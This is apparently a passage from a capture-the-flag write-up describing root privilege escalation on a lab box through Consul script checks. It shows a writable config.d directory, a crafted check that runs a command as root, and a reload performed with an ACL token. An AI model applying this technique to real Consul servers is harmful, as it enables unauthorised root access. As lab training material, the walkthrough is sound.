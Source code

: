     developer@ambassador:/etc/consul.d$ ps auxww | grep consul
    root        1013  0.5  3.3 781092 66536 ?        Ssl  17:14   0:00 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
    

On removing comments from the `consol.hcl` file, what remains is:

    
    
    developer@ambassador:/etc/consul.d$ cat consul.hcl | grep -v "^#" | grep .
    data_dir = "/opt/consul"
    server = true
    bind_addr = "127.0.0.1"
    bootstrap_expect=1
    acl {
      enabled        = true
      default_policy = "deny"
      down_policy    = "extend-cache"
    }
    enable_script_checks = true
    

`config.d` is permissioned such that developer can write to it, but not read
what’s in it. Presumably config files in that directory should be processed.

#### Script Checks

Looking at the `enable_script_checks` option can lead to [this blog
post](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-
specific-configurations) about how Consul can be exploited by script checks.
[This page](https://www.consul.io/docs/discovery/checks) talks about how to
create checks and includes examples.

The “service definition file” goes into the “agent’s configuration directory”,
which I believe is `/etc/consul.d/config.d`.

I’ll grab the example for a script check from the documents page above, and
modify it a bit

    
    
    check = {
      id = "0xdf"
      name = "0xdf owned this"
      args = ["/usr/bin/touch", "/tmp/0xdf-test"]
      interval = "10s"
      timeout = "1s"
    }
    

This script check will now touch `/tmp/0xdf-test` as root. I’ll use `vim` to
write that as `config.d/0xdf.hcl`.

I’ll reload `consul` to refresh the configuration:

    
    
    developer@ambassador:/etc/consul.d$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul reload
    Configuration reload triggered
    
